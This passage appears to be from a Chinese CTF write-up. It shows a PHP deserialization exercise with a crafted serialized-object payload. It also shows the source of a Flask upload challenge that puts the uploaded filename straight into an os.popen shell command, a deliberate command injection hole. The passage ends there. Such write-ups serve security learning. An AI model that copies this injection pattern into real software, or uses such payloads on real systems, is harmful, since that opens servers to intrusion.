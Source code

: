 简单反序列化：

```php
<?php

class Moon{
    public $name;
    public function __construct() {
        $this->name = new Ion_Fan_Princess();
    }
}

class Ion_Fan_Princess{
    public $nickname="小甜甜";
}

echo serialize(new Moon());

payload：
O:4:"Moon":1:{s:4:"name";O:16:"Ion_Fan_Princess":1:{s:8:"nickname";s:9:"小甜甜";}}
```





### LSB探姬            

源码：

```python
    # !/usr/bin/env python
    # -*-coding:utf-8 -*-
    """
    # File       : app.py
    # Time       ：2022/10/20 15:16
    # Author     ：g4_simon
    # version    ：python 3.9.7
    # Description：TSTEG-WEB
    # flag is in /app/flag.py
    """
    from flask import *
    import os
    #初始化全局变量
    app = Flask(__name__)
    @app.route('/', methods=['GET'])
    def index():    
        return render_template('upload.html')
    @app.route('/upload', methods=['GET', 'POST'])
    def upload_file():
        if request.method == 'POST':
            try:
                f = request.files['file']
                f.save('upload/'+f.filename)
                cmd="python3 tsteg.py upload/"+f.filename
                result=os.popen(cmd).read()
                data={"code":0,"cmd":cmd,"result":result,"message":"file uploaded!"}
                return jsonify(data)
            except:
                data={"code":1,"message":"file upload error!"}
                return jsonify(data)
        else:
            return render_template('upload.html')
    @app.route('/source', methods=['GET'])
    def show_source():
        return render_template('source.html')
    if __name__ == '__main__':
```
